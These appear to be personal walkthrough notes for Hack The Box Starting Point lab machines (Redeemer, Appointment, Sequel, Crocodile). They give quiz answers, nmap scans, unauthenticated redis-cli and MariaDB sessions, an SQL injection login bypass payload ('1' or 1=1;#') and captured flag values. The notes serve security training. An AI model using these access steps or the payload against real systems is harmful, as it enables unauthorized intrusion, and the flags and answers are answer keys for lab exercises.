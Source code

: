 - Recon'
 - rustscan -a 10.129.175.13  --range 1009-65535 [link](https://github.com/RustScan/RustScan/wiki/Usage) 
 - redis is no-memory Database type
 - Which flag is used with the Redis command-line utility to specify the hostname? (-h)
 - Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? (`info`)
 - What is the version of the Redis server being used on the target machine? (`nmap -sC -sV -p 6379 $IP`)
 - Which command is used to select the desired database in Redis? (`select` )
 - How many keys are present inside the database with index 0? (`4`) how ? : 
 
 ```bash
 #Install redis
 
curl -fsSL https://packages.redis.io/gpg | sudo gpg --dearmor -o /usr/share/keyrings/redis-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/redis-archive-keyring.gpg] https://packages.redis.io/deb $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/redis.list

sudo apt-get update
sudo apt-get install redis

#use redis cli 
redis-cli -h $IP -p 6379 
10.129.175.13:6379> SELECT 0
OK
10.129.175.13:6379> DBSIZE
(integer) 4
(2.13s)
10.129.175.13:6379>
```  
- Which command is used to obtain all the keys in a database? (`keys *`)
- Submit root flag 
 ```bash
10.129.175.13:6379> keys *
1) "stor"
2) "numb"
3) "flag"
4) "temp"
10.129.175.13:6379> keys flag
1) "flag"
10.129.175.13:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.175.13:6379> 

```

Redeemer Finish 
Also **Tier 0** Free machines finish
## -------------------------------------------------------

### Tier 1 Free machines

## Appointment (Very Easy)

- What does the acronym SQL stand for? (`Structured Query Language`)
- What is one of the most common type of SQL vulnerabilities? (`sql injection`)
- What is the 2021 OWASP Top 10 classification for this vulnerability? (**[A03:2021-Injection)
 - What does Nmap report as the service and version that are running on port 80 of the target? : (`Apache httpd 2.4.38 ((Debian))`) 
    ```bash
    nmap -sC -sV -p 80 10.129.121.152 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-14 16:03 SAST
Nmap scan report for 10.129.121.152
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.77 seconds
```

- What is the standard port used for the HTTPS protocol? (`443`)
- What is a folder called in web-application terminology? (`directory`)
- What is the HTTP response code is given for 'Not Found' errors? (`404`)
- Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?(`dir`)
- What single character can be used to comment out the rest of a line in MySQL?(`#`)
- If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned? (`congratulations`) - > ```
admin
1' or 1=1;#
[link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based) 
- Submit root flag : previous answer





## --------------------------------------------------------
### Tier 1 Free machines
## Sequel (Very Easy)

- During our scan, which port do we find serving MySQL? (`3306`)
 ```bash
 nmap -sC -sV 10.129.8.9 
```
- What community-developed MySQL version is the target running? (`MariaDB`)
- When using the MySQL command line client, what switch do we need to use in order to specify a login username?(`u`)
 Ex : `mariadb -h 166.78.144.191 -u username -ppassword database_name` 
- Which username allows us to log into this MariaDB instance without providing a password? (`root`)
- In SQL, what symbol can we use to specify within the query that we want to display everything inside a table? (`*`)
- In SQL, what symbol do we need to end each query with? (`;`)
- There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?(`htb`)
```bash
mariadb -h 10.129.8.9 -u root -p 
Enter password: #Blank password here
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.106 sec)

```

- Submit root flag : 
 ```bash
 USE htb;
 MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+

```


## -------------------------------------------------------
## Crododile

   
- What Nmap scanning switch employs the use of default scripts during a scan? (`-sC`)
- What service version is found to be running on port 21? (`vsftpd 3.0.3`)
- What FTP code is returned to us for the "Anonymous FTP login allowed" message?(`230`)
- After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously? (`anonymous`)
- After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server? (`get`)
- What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server? (`admin`)
- What version of Apache HTTP Server is running on the target host? (`Apache httpd 2.4.41)
- What switch can we use with Gobuster to specify we are looking for specific filetypes?(`-x`)
- Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service? (``)